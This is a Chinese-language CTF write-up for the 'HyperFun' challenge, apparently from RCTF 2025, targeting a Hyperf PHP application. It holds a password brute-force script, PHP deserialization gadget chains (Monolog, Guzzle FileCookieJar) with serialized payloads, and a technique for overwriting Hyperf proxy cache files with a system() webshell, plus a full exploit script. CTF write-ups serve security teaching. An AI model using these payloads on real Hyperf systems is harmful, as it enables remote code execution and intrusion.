## HyperFun

> The administrator of hyperfun,a system developed using Hyperf, temporarily forgot their password — even though the password was really weak… Please help him recover the password and steal his secrets!

根据题目描述管理员密码为弱口令，前端只做了个简单的AES-CBC加密，从/api/get_aes_key获取到key后写个爆破脚本：

```python
import base64
import json
import os
import hashlib
import hmac

import requests
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad


BASE_URL = "http://localhost:9501"
DICT_PATH = "dict.txt"

def load_key(base64_key: str) -> bytes:
    return base64.b64decode(base64_key)


def aes_encrypt(data: dict, key: bytes):

    plaintext = json.dumps(data).encode("utf-8")

    iv = os.urandom(16)

    cipher = AES.new(key, AES.MODE_CBC, iv)
    ciphertext = cipher.encrypt(pad(plaintext, AES.block_size))

    iv_b64 = base64.b64encode(iv).decode()
    ct_b64 = base64.b64encode(ciphertext).decode()

    mac_hex = hmac.new(
        key,
        (iv_b64 + ct_b64).encode(),
        hashlib.sha256
    ).hexdigest()

    payload = json.dumps({
        "iv": iv_b64,
        "value": ct_b64,
        "mac": mac_hex
    })

    return base64.b64encode(payload.encode()).decode()


def encrypt_payload(username, password, base64_key):
    key = load_key(base64_key)
    return aes_encrypt({"username": username, "password": password}, key)


if __name__ == "__main__":
    AES_KEY_BASE64 = "Yle1msnwyuUb8+JZDai6Ww=="

    with open(DICT_PATH, 'rb') as f:
        for line in f:
            pwd = line.strip().decode(errors="ignore")
            encrypted = encrypt_payload("admin", pwd, AES_KEY_BASE64)
            # print(encrypted)
            r = requests.post(url=BASE_URL+'/api/login',data={'data':encrypted})
            # print(r.text)
            code = r.json()['code']
            if code != 400:
                print(pwd)
```

得到密码为123321



发现一处Debug读文件尝试读取passwd发现有open_basedir受限，只能操作web目录和/tmp目录下的文件



结合题意该项目由Hyperf开发：https://hyperf.io/

对于hyperf路由注册统一在config/routes.php下，尝试读取路由列表

注意到有4个Controller

- ROISIndexController
- ROISDebugController
- ROISLoginController
- ROISPublicController

```php
<?php

declare(strict_types=1);
/**
 * This file is part of Hyperf.
 *
 * @link     https://www.hyperf.io
 * @document https://hyperf.wiki
 * @contact  group@hyperf.io
 * @license  https://github.com/hyperf/hyperf/blob/master/LICENSE
 */
use Hyperf\HttpServer\Router\Router;

Router::addRoute(['GET', 'POST', 'HEAD'], '/', 'App\Controller\ROISIndexController@index');

Router::addRoute(['GET', 'POST'], '/api/debug', 'App\Controller\ROISDebugController@debug');

Router::addRoute(['POST'], '/api/register', 'App\Controller\ROISLoginController@register');

Router::addRoute(['POST'], '/api/login', 'App\Controller\ROISLoginController@login');

Router::addRoute(['GET'], '/api/get_aes_key', 'App\Controller\ROISPublicController@aes_key');

Router::get('/favicon.ico', function () {
    return '';
});
```

按照hyperf脚手架的目录结构读取上述敏感控制器，注意到ROISDebugController下存在aes的加解密，引入`HyperfExt\Encryption\Crypt`依赖。容易寻找到：https://github.com/hyperf-ext/encryption



对于decrypt()方法参数`unserialize`默认是true



跟进到AesDriver的实现，当`unserialize`为true时会对解密结果进行反序列化，即，默认Crypt::decrypt()方法是存在反序列化入口的



经探测（可参考https://github.com/ambionics/phpggc），Hyperf中存在FileCookieJar和Monolog Gadget，对于Monolog RCE9利用链cli中成功利用：



用上面同样的加密算法对序列化对象加密，在php序列化对象并base64后填入下方脚本，下面是monolog rce9利用链远程尝试利用脚本

```python
import base64
import json
import os
import hashlib
import hmac

import requests
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad


BASE_URL = "http://localhost:9501"

def load_key(base64_key: str) -> bytes:
    return base64.b64decode(base64_key)


def aes_encrypt(data, key: bytes):

    plaintext = data
    iv = os.urandom(16)

    cipher = AES.new(key, AES.MODE_CBC, iv)
    ciphertext = cipher.encrypt(pad(plaintext, AES.block_size))

    iv_b64 = base64.b64encode(iv).decode()
    ct_b64 = base64.b64encode(ciphertext).decode()

    mac_hex = hmac.new(
        key,
        (iv_b64 + ct_b64).encode(),
        hashlib.sha256
    ).hexdigest()

    payload = json.dumps({
        "iv": iv_b64,
        "value": ct_b64,
        "mac": mac_hex
    })

    return base64.b64encode(payload.encode()).decode()


def encrypt_payload(data, base64_key):
    key = load_key(base64_key)
    return aes_encrypt(data, key)


if __name__ == "__main__":
    AES_KEY_BASE64 = "Yle1msnwyuUb8+JZDai6Ww=="
    data = base64.b64decode('TzozNzoiTW9ub2xvZ1xIYW5kbGVyXEZpbmdlcnNDcm9zc2VkSGFuZGxlciI6NDp7czoxNjoiACoAcGFzc3RocnVMZXZlbCI7RToxOToiTW9ub2xvZ1xMZXZlbDpEZWJ1ZyI7czoxMDoiACoAaGFuZGxlciI7cjoxO3M6OToiACoAYnVmZmVyIjthOjE6e2k6MDtPOjE3OiJNb25vbG9nXExvZ1JlY29yZCI6Mjp7czo1OiJsZXZlbCI7cjoyO3M6NToibWl4ZWQiO3M6Njoid2hvYW1pIjt9fXM6MTM6IgAqAHByb2Nlc3NvcnMiO2E6Mzp7aTowO3M6MTU6ImdldF9vYmplY3RfdmFycyI7aToxO3M6MzoiZW5kIjtpOjI7czo2OiJzeXN0ZW0iO319')

    encrypted = encrypt_payload(data, AES_KEY_BASE64)
    # print(encrypted)
    r = requests.post(url=BASE_URL+'/api/debug',data={'option':'aes_decrypt','data':encrypted},cookies={"ROIS_SESSION_ID":"aznub2Hwl37pFSjQ7HMfdcncrYB81WHccDf5O4xh"})
    print(r.text)
```

但是服务端会返回`Internal Server Error.`

其实如果起一个hyperf的在线环境看docker日志就会清晰很多：

远程对deprecated属性限制很严格，会报错，应该有不少师傅在这个地方被坑了（（（



那么我们的目光就转向剩下的MonologFW1和FileCookieJar这两条Gadget，MonologFW1因为没使用$mixed属性因此可落地文件。

我们以MonologFW1为例：

gadget：

```php
<?php

namespace Monolog
{
    enum Level: int
    {
        case Debug = 100;
    }

    class LogRecord
    {
        public Level $level = \Monolog\Level::Debug;
        public string $message;
        public \DateTimeImmutable $datetime;

        function __construct($data)
        {
            $this->message = $data;
            $this->datetime = new \DateTimeImmutable;
        }
    }
}

namespace Monolog\Handler
{
    class DeduplicationHandler
    {
        protected string $deduplicationStore;
        protected int $bufferSize = 1;
        protected array $buffer;
        protected \Monolog\Level $deduplicationLevel = \Monolog\Level::Debug;

        public function __construct($data, $path)
        {
            $this->buffer = [new \Monolog\LogRecord($data)];
            $this->deduplicationStore = $path;
        }
    }

    class GroupHandler
    {
        protected array $handlers;

        public function __construct($data, $path)
        {
            $this->handlers = [new \Monolog\Handler\DeduplicationHandler($data, $path)];
        }
    }

    $a = new \Monolog\Handler\GroupHandler("<?php /*pwned*/ ?>", "pwned.php");
    echo base64_encode(serialize($a));
}
```

成功落地文件：



已经具备写文件的能力后就需要思考应该让文件落地在哪，hyperf不同于传统的fpm-php类型的应用，将shell脚本写在web目录下就能执行，它是长生命周期的，所有加载过的类会常驻在内存中，因此直接修改php代码不会改变原本的逻辑：



在继续浏览文档的时候我们会注意到hyperf存在一种[代理类缓存机制](https://hyperf.wiki/3.1/#/zh-cn/aop?id=%e4%bb%a3%e7%90%86%e7%b1%bb%e7%bc%93%e5%ad%98)，会在`runtime/container/proxy/`目录下生成代理类缓存文件。



hyperf在运行阶段是懒加载，在类需要被用到的时候才会去加载，同时hyperf在启动时会开启多个swoole worker。因此我们可以尝试覆写`runtime/container/proxy/`下的代理类文件来等待未加载该代理类的worker去加载它，从而按照新的逻辑去执行

当然Monolog FW1链存在局限性无法覆写已存在的文件，因此我们这里改用FileCooieJar利用链





使用FileCookieJar的话同时需注意sink处的json_encode()，命名空间中的'`\`’字符会被转义，解决方案其实也很简单，eval(hex2bin())之类的绕一下就行了。



读取App_Controller_ROISPublicController.proxy.php，并做修改

```php
declare (strict_types=1);
/**
 * This file is part of Hyperf.
 *
 * @link     https://www.hyperf.io
 * @document https://hyperf.wiki
 * @contact  group@hyperf.io
 * @license  https://github.com/hyperf/hyperf/blob/master/LICENSE
 */
namespace App\Controller;

use App\Common\Response;
use function Hyperf\Support\env;
class ROISPublicController extends AbstractController
{
    use \Hyperf\Di\Aop\ProxyTrait;
    use \Hyperf\Di\Aop\PropertyHandlerTrait;
    function __construct()
    {
        if (method_exists(parent::class, '__construct')) {
            parent::__construct(...func_get_args());
        }
        $this->__handlePropertyHandler(__CLASS__);
    }
    public function aes_key()
    {
        $key = $this->request->input('cmd','whoami');
        return $this->response->json(Response::json_ok(["res" => system($key)]));
    }
}
```

base64后传入下方gadget

gadget：

```php
<?php

namespace GuzzleHttp\Cookie
{
    class SetCookie
    {
        private $data;

        public function __construct($data)
        {
            $this->data = [
                'Expires' => 1,
                'Discard' => false,
                'Value' => $data
            ];
        }
    }

    class CookieJar
    {
        private $cookies = [];
        private $strictMode;

        public function __construct($data)
        {
            $this->cookies = [new SetCookie($data)];
        }
    }

    class FileCookieJar extends CookieJar
    {
        private $filename;
        private $storeSessionCookies = true;

        public function __construct($filename, $data)
        {
            parent::__construct($data);
            $this->filename = $filename;
        }
    }

    $a = new \GuzzleHttp\Cookie\FileCookieJar('runtime/container/proxy/App_Controller_ROISPublicController.proxy.php', "<?php eval(base64_decode('ZGVjbGFyZSAoc3RyaWN0X3R5cGVzPTEpOwovKioKICogVGhpcyBmaWxlIGlzIHBhcnQgb2YgSHlwZXJmLgogKgogKiBAbGluayAgICAgaHR0cHM6Ly93d3cuaHlwZXJmLmlvCiAqIEBkb2N1bWVudCBodHRwczovL2h5cGVyZi53aWtpCiAqIEBjb250YWN0ICBncm91cEBoeXBlcmYuaW8KICogQGxpY2Vuc2UgIGh0dHBzOi8vZ2l0aHViLmNvbS9oeXBlcmYvaHlwZXJmL2Jsb2IvbWFzdGVyL0xJQ0VOU0UKICovCm5hbWVzcGFjZSBBcHBcQ29udHJvbGxlcjsKCnVzZSBBcHBcQ29tbW9uXFJlc3BvbnNlOwp1c2UgZnVuY3Rpb24gSHlwZXJmXFN1cHBvcnRcZW52OwpjbGFzcyBST0lTUHVibGljQ29udHJvbGxlciBleHRlbmRzIEFic3RyYWN0Q29udHJvbGxlcgp7CiAgICB1c2UgXEh5cGVyZlxEaVxBb3BcUHJveHlUcmFpdDsKICAgIHVzZSBcSHlwZXJmXERpXEFvcFxQcm9wZXJ0eUhhbmRsZXJUcmFpdDsKICAgIGZ1bmN0aW9uIF9fY29uc3RydWN0KCkKICAgIHsKICAgICAgICBpZiAobWV0aG9kX2V4aXN0cyhwYXJlbnQ6OmNsYXNzLCAnX19jb25zdHJ1Y3QnKSkgewogICAgICAgICAgICBwYXJlbnQ6Ol9fY29uc3RydWN0KC4uLmZ1bmNfZ2V0X2FyZ3MoKSk7CiAgICAgICAgfQogICAgICAgICR0aGlzLT5fX2hhbmRsZVByb3BlcnR5SGFuZGxlcihfX0NMQVNTX18pOwogICAgfQogICAgcHVibGljIGZ1bmN0aW9uIGFlc19rZXkoKQogICAgewogICAgICAgICRrZXkgPSBlbnYoJ0FFU19LRVknLCAnJyk7CiAgICAgICAgaWYgKGVtcHR5KCRrZXkpKSB7CiAgICAgICAgICAgIHJldHVybiAkdGhpcy0+cmVzcG9uc2UtPmpzb24oUmVzcG9uc2U6Ompzb25fZXJyKDUwMCwgIm5vIGFlcyBrZXkgc2V0ISIpKS0+d2l0aFN0YXR1cyg1MDApOwogICAgICAgIH0KICAgICAgICByZXR1cm4gJHRoaXMtPnJlc3BvbnNlLT5qc29uKFJlc3BvbnNlOjpqc29uX29rKFsia2V5IiA9PiAka2V5XSkpOwogICAgfQp9'));?>");
    echo base64_encode(serialize($a));
}
```

最终exp：

```python
import base64
import json
import os
import hashlib
import hmac
import passwd_crack

import requests
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad


BASE_URL = "http://localhost:9501"

def load_key(base64_key: str) -> bytes:
    return base64.b64decode(base64_key)


def aes_encrypt(data, key: bytes):

    plaintext = data
    iv = os.urandom(16)

    cipher = AES.new(key, AES.MODE_CBC, iv)
    ciphertext = cipher.encrypt(pad(plaintext, AES.block_size))

    iv_b64 = base64.b64encode(iv).decode()
    ct_b64 = base64.b64encode(ciphertext).decode()

    mac_hex = hmac.new(
        key,
        (iv_b64 + ct_b64).encode(),
        hashlib.sha256
    ).hexdigest()

    payload = json.dumps({
        "iv": iv_b64,
        "value": ct_b64,
        "mac": mac_hex
    })

    return base64.b64encode(payload.encode()).decode()


def encrypt_payload(data, base64_key):
    key = load_key(base64_key)
    return aes_encrypt(data, key)


if __name__ == "__main__":
    AES_KEY_BASE64 = "Yle1msnwyuUb8+JZDai6Ww=="
    data = base64.b64decode('TzozMToiR3V6emxlSHR0cFxDb29raWVcRmlsZUNvb2tpZUphciI6NDp7czozNjoiAEd1enpsZUh0dHBcQ29va2llXENvb2tpZUphcgBjb29raWVzIjthOjE6e2k6MDtPOjI3OiJHdXp6bGVIdHRwXENvb2tpZVxTZXRDb29raWUiOjE6e3M6MzM6IgBHdXp6bGVIdHRwXENvb2tpZVxTZXRDb29raWUAZGF0YSI7YTozOntzOjc6IkV4cGlyZXMiO2k6MTtzOjc6IkRpc2NhcmQiO2I6MDtzOjU6IlZhbHVlIjtzOjExNjA6Ijw/cGhwIGV2YWwoYmFzZTY0X2RlY29kZSgnWkdWamJHRnlaU0FvYzNSeWFXTjBYM1I1Y0dWelBURXBPd292S2lvS0lDb2dWR2hwY3lCbWFXeGxJR2x6SUhCaGNuUWdiMllnU0hsd1pYSm1MZ29nS2dvZ0tpQkFiR2x1YXlBZ0lDQWdhSFIwY0hNNkx5OTNkM2N1YUhsd1pYSm1MbWx2Q2lBcUlFQmtiMk4xYldWdWRDQm9kSFJ3Y3pvdkwyaDVjR1Z5Wmk1M2FXdHBDaUFxSUVCamIyNTBZV04wSUNCbmNtOTFjRUJvZVhCbGNtWXVhVzhLSUNvZ1FHeHBZMlZ1YzJVZ0lHaDBkSEJ6T2k4dloybDBhSFZpTG1OdmJTOW9lWEJsY21ZdmFIbHdaWEptTDJKc2IySXZiV0Z6ZEdWeUwweEpRMFZPVTBVS0lDb3ZDbTVoYldWemNHRmpaU0JCY0hCY1EyOXVkSEp2Ykd4bGNqc0tDblZ6WlNCQmNIQmNRMjl0Ylc5dVhGSmxjM0J2Ym5ObE93cDFjMlVnWm5WdVkzUnBiMjRnU0hsd1pYSm1YRk4xY0hCdmNuUmNaVzUyT3dwamJHRnpjeUJTVDBsVFVIVmliR2xqUTI5dWRISnZiR3hsY2lCbGVIUmxibVJ6SUVGaWMzUnlZV04wUTI5dWRISnZiR3hsY2dwN0NpQWdJQ0IxYzJVZ1hFaDVjR1Z5Wmx4RWFWeEJiM0JjVUhKdmVIbFVjbUZwZERzS0lDQWdJSFZ6WlNCY1NIbHdaWEptWEVScFhFRnZjRnhRY205d1pYSjBlVWhoYm1Sc1pYSlVjbUZwZERzS0lDQWdJR1oxYm1OMGFXOXVJRjlmWTI5dWMzUnlkV04wS0NrS0lDQWdJSHNLSUNBZ0lDQWdJQ0JwWmlBb2JXVjBhRzlrWDJWNGFYTjBjeWh3WVhKbGJuUTZPbU5zWVhOekxDQW5YMTlqYjI1emRISjFZM1FuS1NrZ2V3b2dJQ0FnSUNBZ0lDQWdJQ0J3WVhKbGJuUTZPbDlmWTI5dWMzUnlkV04wS0M0dUxtWjFibU5mWjJWMFgyRnlaM01vS1NrN0NpQWdJQ0FnSUNBZ2ZRb2dJQ0FnSUNBZ0lDUjBhR2x6TFQ1ZlgyaGhibVJzWlZCeWIzQmxjblI1U0dGdVpHeGxjaWhmWDBOTVFWTlRYMThwT3dvZ0lDQWdmUW9nSUNBZ2NIVmliR2xqSUdaMWJtTjBhVzl1SUdGbGMxOXJaWGtvS1FvZ0lDQWdld29nSUNBZ0lDQWdJQ1JyWlhrZ1BTQWtkR2hwY3kwK2NtVnhkV1Z6ZEMwK2FXNXdkWFFvSjJOdFpDY3NKM2RvYjJGdGFTY3BPd29nSUNBZ0lDQWdJSEpsZEhWeWJpQWtkR2hwY3kwK2NtVnpjRzl1YzJVdFBtcHpiMjRvVW1WemNHOXVjMlU2T21wemIyNWZiMnNvV3lKeVpYTWlJRDArSUhONWMzUmxiU2drYTJWNUtWMHBLVHNLSUNBZ0lIMEtmUT09JykpOz8+Ijt9fX1zOjM5OiIAR3V6emxlSHR0cFxDb29raWVcQ29va2llSmFyAHN0cmljdE1vZGUiO047czo0MToiAEd1enpsZUh0dHBcQ29va2llXEZpbGVDb29raWVKYXIAZmlsZW5hbWUiO3M6Njk6InJ1bnRpbWUvY29udGFpbmVyL3Byb3h5L0FwcF9Db250cm9sbGVyX1JPSVNQdWJsaWNDb250cm9sbGVyLnByb3h5LnBocCI7czo1MjoiAEd1enpsZUh0dHBcQ29va2llXEZpbGVDb29raWVKYXIAc3RvcmVTZXNzaW9uQ29va2llcyI7YjoxO30=')

    login_data = passwd_crack.encrypt_payload("admin", "123321", AES_KEY_BASE64)
    r0 = requests.post(url=BASE_URL + '/api/login', data={'data': login_data},cookies={"ROIS_SESSION_ID":"aznub2Hwl37pFSjQ7HMfdcncrYB81WHccDf5O4xh"})

    encrypted = encrypt_payload(data, AES_KEY_BASE64)
    # print(encrypted)
    r1 = requests.post(url=BASE_URL+'/api/debug',data={'option':'aes_decrypt','data':encrypted},cookies={"ROIS_SESSION_ID":"aznub2Hwl37pFSjQ7HMfdcncrYB81WHccDf5O4xh"})
    # print(r.text)
    r2 = requests.get(url=BASE_URL+ '/api/get_aes_key', params={'cmd':"cat /rctf_2025_flag"})
    print(r2.text)
```


